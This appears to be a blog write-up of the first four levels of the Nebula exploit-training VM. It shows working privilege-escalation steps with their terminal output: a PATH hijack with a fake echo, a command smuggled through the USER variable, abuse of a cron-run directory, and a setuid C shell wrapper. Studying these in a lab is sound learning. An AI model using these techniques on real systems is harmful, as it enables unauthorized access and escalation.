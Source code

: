 Title: Exploit Education - Nebula Part 1
Date: 2020-09-05
Modified: 2020-09-05
Tags: learning, ctf, exploit, nebula

# [Nebula](https://exploit.education/nebula/)

## Basics
Nebula VM has 20 levels. Each level can be accessed with `levelXX` username and the same password.

## [Level 00](https://exploit.education/nebula/level-00/)

#### Solution
```bash
find / -type f -user flag00 -perm -0400 2>/dev/null
```
Search for all files, in all directories, belonging to `flag00` user, with [setuid](https://en.wikipedia.org/wiki/Setuid). Redirect all "permission error" (stderr) messages to `/dev/null` discarding those messages.

#### Result
```bash
level00@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level00@nebula:~$ find / -type f -user flag00 -perm -0400 2>/dev/null
/bin/.../flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level01](https://exploit.education/nebula/level-01/)

#### Solution
Program allows to execute arbitrary program due to `system` call for `echo`.
Let's create fake echo with to run `bash` session with `flag01` UID.

#### Result
```bash
level01@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level01@nebula:~$ cat > /tmp/echo << EOF
> #!/usr/bin/env bash
> bash
> EOF
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ cd ~flag01/
level01@nebula:/home/flag01$ ./flag01
and now what?
level01@nebula:/home/flag01$ PATH=/tmp:$PATH ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

## [Level02](https://exploit.education/nebula/level-02/)

#### Solution
Program is reading `USER` variable, which can be provided by attacker.

#### Result
```bash
level02@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level02@nebula:~$ USER=";bash #" /home/flag02/flag02
about to call system("/bin/echo ;bash # is cool")

flag02@nebula:~$ getflag
You have successfully executed getflag on a target account
```


## [Level03](https://exploit.education/nebula/level-03/)

#### Solution
Cron is running script which is picking up content of `writable.d` directory. It is executing whatever is there. It means, that anything what is running via cron, will have the same permissions.

#### Result
```bash
level03@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level03@nebula:~$ cd ~flag03
level03@nebula:/home/flag03$ cat > writable.d/flag << EOF
> #!/usr/bin/env bash
> getflag > /tmp/flag.result
> EOF
level03@nebula:/home/flag03$ cat /tmp/flag.result
You have successfully executed getflag on a target account
```

#### Solution2
Prepare simple C program to gain bash access

#### Result2
```C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  system("/bin/bash");
}
```
```bash
level03@nebula:/tmp$ cat > /home/flag03/writable.d/exploit.sh << EOF
> #!/usr/bin/env bash
> cp /tmp/exploit /home/flag03/exploitable
> chmod u+s /home/flag03/exploitable
> EOF
```

#### Mistakes
##### First
I tried to create copy of `exploit` program in `/tmp` directory. However, when I tried to run it, it didn't give me `flag03` user. After looking into `/etc/fstab` it became obvious:
```
flag03@nebula:/home/flag03$ cat /etc/fstab
overlayfs / overlayfs rw 0 0
tmpfs /tmp tmpfs nosuid,nodev 0 0
```
`tmpfs` has `nosuid` option. It means, that the nosuid mount option specifies that the filesystem cannot contain set userid files.

##### Second
When I found that `nosetuid` is preventing from running program from within `/tmp`, I decided to copy `exploit` to `/home/level03`. It failed, because default user running `writable.sh` wasn't `root` but `flag03`. Solution was to copy payload to `/home/flag03` directory.

